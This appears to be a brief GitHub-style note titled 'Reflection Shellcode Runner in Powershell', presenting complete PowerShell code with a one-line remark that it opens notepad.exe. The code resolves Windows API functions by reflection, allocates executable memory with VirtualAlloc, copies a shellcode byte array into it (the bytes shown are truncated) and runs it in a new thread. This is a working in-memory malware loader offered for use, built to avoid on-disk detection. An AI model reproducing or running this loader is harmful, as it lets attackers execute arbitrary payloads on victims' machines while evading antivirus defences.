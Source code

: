 This opens up a notepad.exe

# Reflection Shellcode Runner in Powershell


just looking at the final code : 

```ps1

function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
 Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
 Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, 
@($moduleName)), $functionName))
}
function getDelegateType {
 Param (
 [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
 [Parameter(Position = 1)] [Type] $delType = [Void]
 )
 $type = [AppDomain]::CurrentDomain.
 DefineDynamicAssembly((New-Object 
System.Reflection.AssemblyName('ReflectedDelegate')), 
 [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
 DefineDynamicModule('InMemoryModule', $false).
 DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
 [System.MulticastDelegate])
 $type.
 DefineConstructor('RTSpecialName, HideBySig, Public', 
[System.Reflection.CallingConventions]::Standard, $func).
 SetImplementationFlags('Runtime, Managed')
 $type.
 DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
 SetImplementationFlags('Runtime, Managed')
 return $type.CreateType()
}
$lpMem = 

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc 
kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) 
([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc 
kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], 
[UInt32], [IntPtr]) 
([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc 
kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) 
([Int]))).Invoke($hThread, 0xFFFFFFFF)

```

